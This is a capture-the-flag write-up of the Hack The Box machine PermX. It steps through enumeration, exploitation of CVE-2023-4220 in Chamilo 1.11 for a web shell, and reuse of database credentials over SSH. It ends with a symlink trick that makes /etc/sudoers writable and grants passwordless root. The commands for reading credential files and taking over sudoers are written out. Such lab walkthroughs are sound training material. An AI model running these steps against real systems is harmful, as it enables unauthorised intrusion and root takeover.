

# PermX Writeup - by Thammanant Thamtaranon  
- PermX is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- We began by performing a full TCP port scan with version detection and OS fingerprinting using the command:  
  `nmap -A -T4 -p- 10.10.11.23`  
  
- We added `permx.htb` to our `/etc/hosts` file to enable hostname resolution.

## Scanning & Enumeration  
- We enumerated web directories using:  
  `dirsearch -u http://10.10.11.23`  
  
- We performed VHost enumeration using:  
  `ffuf -u http://permx.htb -H "Host: FUZZ.permx.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac`  
- This revealed the subdomains `www` and `lms`, which we added to `/etc/hosts`.  
- We visited `lms.permx.htb` and observed a web application.  
  
- Further enumeration with:  
  `dirsearch -u http://lms.permx.htb`  
revealed additional paths.  
  
- We identified the web application as **Chamilo version 1.11**.  

## Exploitation  
- Searching for vulnerabilities in Chamilo 1.11 led us to **CVE-2023-4220**.  
- We obtained a public PoC and executed the exploit successfully.  
  
- This granted us a web shell as `www-data`.  
  
- We enumerated users using:  
  `cat /etc/passwd`  
and confirmed the presence of user `mtz`.  
  
- We discovered database credentials inside:  
  `/var/www/chamilo/app/config/configuration.php`  
  
- Assuming credential reuse, we attempted to SSH into the box as `mtz` using the recovered password, which was successful.  
  
- We obtained the **user flag**.

- Checking sudo privileges with:  
  `sudo -l`  
showed that `mtz` could run `/opt/acl.sh` as root.  
  
- Reading the contents of the script:  
  `cat /opt/acl.sh`  
revealed that it modifies file permissions via `setfacl`.  
  

### Key Observations:
- The script:
  - Only works on files in `/home/mtz/`
  - Blocks paths containing `..`
  - Only affects regular files  
- However, it **does not check for symlinks**, which allows us to bypass the path restrictions.

### Privilege Escalation via Symlink ACL Abuse:
1. Create a symlink pointing to `/etc/sudoers`:  
   `ln -s /etc/sudoers /home/mtz/mysudoers`
2. Run the vulnerable script to assign read-write ACL to the symlink (which applies to `/etc/sudoers`):  
   `sudo /opt/acl.sh mtz rw /home/mtz/mysudoers`
3. Append a line to the sudoers file granting passwordless sudo:  
   `echo "mtz ALL=(ALL) NOPASSWD:ALL" >> /home/mtz/mysudoers`
4. Escalate to root:  
   `sudo su`  
  
- We obtained the **root flag**, completing the machine.
